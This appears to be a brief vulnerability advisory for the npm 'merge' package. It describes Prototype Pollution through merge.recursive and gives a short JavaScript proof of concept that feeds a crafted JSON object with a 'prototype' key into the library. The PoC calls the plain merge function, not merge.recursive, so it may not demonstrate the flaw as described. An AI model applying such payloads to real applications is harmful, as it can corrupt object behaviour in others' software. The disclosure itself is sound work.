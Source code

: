 # Overview
`merge` is used to merge multiple objects into one object.

Affected versions of this package are vulnerable to Prototype Pollution via the `merge.recursive` function. 
It can be tricked into adding or modifying properties of the Object prototype. These properties will be present on all objects.


# Proof of Concept

```js
var mergelib = require('merge');

var obj = mergelib({}, JSON.parse('{ "testProperty": "hi", "prototype" : { "status" : "pwned!" } }'));
console.log(obj.prototype.status);
```
